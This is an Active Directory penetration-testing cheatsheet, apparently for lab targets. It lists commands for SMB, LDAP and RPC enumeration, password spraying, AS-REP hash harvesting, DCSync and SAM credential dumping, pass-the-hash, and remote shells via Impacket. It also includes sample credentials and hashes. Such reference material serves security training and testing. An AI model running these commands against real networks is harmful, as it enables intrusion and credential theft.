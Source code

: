 # Active Directory - Network Recon

This is specifically for AD targets. There is also a [generic SMB recon cheatsheet](../network_recon/smb.md)

## Enumeration

```bash
# Wide spectrum enum
nullinux domc.somedomain.local
nullinux 10.10.10.10
enum4linux -a -M -l -d somedomain.local
enum4linux -a -M -l -d 10.10.10.10

# SMB - default ports: 139 & 445
## SMB map shares and content
smbmap -H 10.10.10.10 -P 139
smbmap -H 10.10.10.10 -P 445
smbmap -H 10.10.10.10 -P 139 -R
smbmap -H 10.10.10.10 -P 445 -R
smbmap -H 10.10.10.10 -P 139 -x "ipconfig /all"
smbmap -H 10.10.10.10 -P 445 -x "ipconfig /all"
smbmap -H 10.10.10.10 -u '' -p '' -P 445
smbmap -H 10.10.10.10 -u 'r.thompson' -p 'password' -P 445

# SMB client login
## SMB Null session and guest logins
smbclient -U ''%'' //10.10.10.10/sharename
smbclient -U anonymous -L //10.10.10.10
smbclient -U guest -L //10.10.10.10

## SMB authenticated
smbclient -U username -L //10.10.10.10
smbclient -U username //10.10.10.10/someshare


# ldap - default ports: 389 & 636
nmap -vv --reason -Pn -sV -p 389 --script="banner,(ldap* or ssl*) and not (brute or broadcast or dos or external or fuzzer)"
ldapsearch -x -h 10.10.10.10 -D '' -w '' -b "DC=somedomain,DC=local"


# Bloodhound collector (rpc/user login required)
pip install bloodhound
python3 -m bloodhound -u 's.smith' -p 'password' -d somedomain.local -ns 10.10.10.10 -c ALL

# RPC - default port: 135
## rpc dump
rpcdump.py domc.somedomain.local

## rpc login
rpcclient -U 's.smith%password' 10.10.10.182


# winrm - default port: 5985
evil-winrm -i 10.10.10.182 -u 's.smith' -p 'password'

# winrm with pass the hash (omit the LM part)
evil-winrm -i 10.10.10.175 -u 'Administrator' -H d9485863c1e9e05851aa40cbb4ab9dff
```

## Credential Spray

If enum4linux, rpc or ldap gives you a list of users, then collect their usernames in a `users.txt` file.

Check smb and winrm login spray if the ports are open (smb 139/445; winrm 5985). Also try username as password, empty password, small pass list.

```bash
# metasploit modules
msf> use scanner/winrm/winrm_login
msf> use scanner/smb/smb_login

set BLANK_PASSWORDS true
set USER_AS_PASS true
```

## Impacket Toolkit

DCE/RPC SAMR dumper. Useful for finding users and domains:

```bash
samrdump.py 10.10.10.10
```

Figure out computer architecture:

```bash
getArch.py -target master.domain.local
```

Look for users with Kerberos pre-authentication disabled and retrieve their krb5asrep pass hash (crack with hashcat):

```bash
GetNPUsers.py domain.local/ -no-pass -format hashcat -usersfile ./users.txt -dc-ip master.domain.local
GetNPUsers.py domain.local/ -no-pass -format hashcat -usersfile ./users.txt -dc-ip 10.10.10.10
```

Impacket's own smbclient implementation:

```bash
smbclient.py [domain]/[user]@[host]
smbclient.py [domain]/[user]@[host] -dc-ip [domain-controller]
smbclient.py htb/svc-alfresco@FOREST -dc-ip 10.10.10.161
```

(authenticated) Bruteforces user SIDs. Requires an rpc user:pass that works:

```bash
lookupsid.py 'username:password'@10.10.10.10
```

(authenticated) Track sessions opened on the remote host(s):

```bash
netview.py someuser -target 10.10.10.10
netview.py DOMAIN/someuser -target 10.10.10.10
netview.py -users ./users -dc-ip freefly-dc.freefly.net -k FREEFLY.NET/beto
```

(Administrator) Dump SAM to extract NTLM hashes of local users. Use DCSync to extract domain credentials:

```bash
secretsdump.py [domain]/[user]@[host]

# only dcsync
secretsdump.py -just-dc [domain]/[user]@[host] -hashes [nl]:[nt]
```

### Impacket remote shells

Get a remote shell via SMB (usually requires Administrator creds):

```bash
smbexec.py SECNOTES/Administrator:u6!4ZwgwOM#^OBf#Nwnh@10.10.10.97
smbexec.py DOMAIN/username:password@host
smbexec.py DOMAIN/username@host -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

Get a remote shell via WMI endpoint:
```bash
wmiexec.py [domain]/[user]:[password]@[host]
wmiexec.py htb/someuser@somehost -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

Get a remote shell via DCOM:
```bash
dcomexec.py -object MMC20 [domain]/[user]:[password]@[host]
dcomexec.py -object MMC20 htb/someuser@somehost -hashes aad3b435b51404eeaad3b435b51404ee:0CB6948805F797BF2A82807973B89537
```

RCE via Task Scheduler Service:
```bash
atexec.py DOMAIN/username:password@host whoami
```

## Manual LDAP

* Documentation: https://ldap3.readthedocs.io/en/latest/bind.html

Start python3 interactive mode.

```python
$ python3
>>> import ldap3
>>> server = ldap3.Server('10.10.10.10', get_info = ldap3.ALL, port=636, use_ssl = True)
>>> connection = ldap3.Connection(server)
>>> connection.bind()
True
```

If you don't get `True` then try without SSL. If you don't get True with that either, then you probably need credentials.

Authenticated version:
```python
$ python3
>>> import ldap3
>>> server = ldap3.Server('10.10.10.10', get_info = ldap3.ALL, port=636, use_ssl = True)
>>> connection = ldap3.Connection(server, user='user_dn', password='user_password', auto_bind=True)
>>> connection.bind()
```

Print basic server info:

```python
>>> server.info
```

At the top of the printout you should find:
```python
Naming contexts:
  dc=DOMAIN,dc=TOPDOMAIN
```

Which should be the same as the domain you are investigating, so `DOMAIN.TOPDOMAIN` or for example `somedomain.local` or `cascade.htb`.

Now you should be able to search the LDAP tree. 

```python
# Print everything 
>>> connection.search(search_base='DC=DOMAIN,DC=TOPDOMAIN', search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*')
True
>> connection.entries
# printout here
```

Example `search_filters`:
```python
# save the root as variable
domain_saved = 'DC=DOMAIN,DC=TOPDOMAIN'

# everything
# (&(objectClass=*))
connection.search(search_base=domain_saved, search_filter='(&(objectClass=*))', search_scope='SUBTREE', attributes='*');connection.entries

# all users
# (&(objectClass=person))
connection.search(search_base=domain_saved, search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes='*');connection.entries

# all users, only select some fields
# (&(objectClass=person))
# ['displayName', 'sAMAccountName']
connection.search(search_base=domain_saved, search_filter='(&(objectClass=person))', search_scope='SUBTREE', attributes=['displayName', 'sAMAccountName']);connection.entries

# individual user by username
# (&(sAMAccountName=s.smith))
connection.search(search_base=domain_saved, search_filter='(&(sAMAccountName=s.smith))', search_scope='SUBTREE', attributes='*');connection.entries
connection.search(search_base=domain_saved, search_filter='(&(sAMAccountName=s.smith))', search_scope='SUBTREE', attributes=['displayName', 'sAMAccountName']);connection.entries

# all computers
connection.search(search_base=domain_saved, search_filter='(&(objectClass=computer))', search_scope='SUBTREE', attributes='*');connection.entries

# all groups
connection.search(search_base=domain_saved, search_filter='(&(objectClass=group))', search_scope='SUBTREE', attributes='*');connection.entries
connection.search(search_base=domain_saved, search_filter='(&(objectClass=group))', search_scope='SUBTREE', attributes=['dn', 'name', 'sAMAccountName']);connection.entries
```

Syntax for `search_filters`:
```bash
# Negated, list all entries where sn is not Smith
(!(sn=Smith))

# AND, all must be true
(&(givenName=A*)(sn=Smith))

# OR, one of them must be true
(|(sn=Smith)(sn=Johnson))
```

To JSON:
```python
# search results to json (press enter twice)
for entry in connection.entries: print(entry.entry_to_json())

# server info to json
print(server.info.to_json())
```

